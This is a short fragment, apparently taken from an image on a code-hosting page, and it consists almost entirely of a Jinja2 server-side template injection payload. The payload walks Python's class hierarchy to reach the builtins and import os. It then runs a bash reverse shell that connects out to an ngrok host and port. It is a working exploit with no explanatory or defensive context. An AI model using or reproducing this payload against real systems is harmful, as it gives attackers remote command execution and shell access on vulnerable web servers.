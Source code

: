 {% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{ x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/12692 0>&1'").read() }}
{% endif %}
{% endfor %}
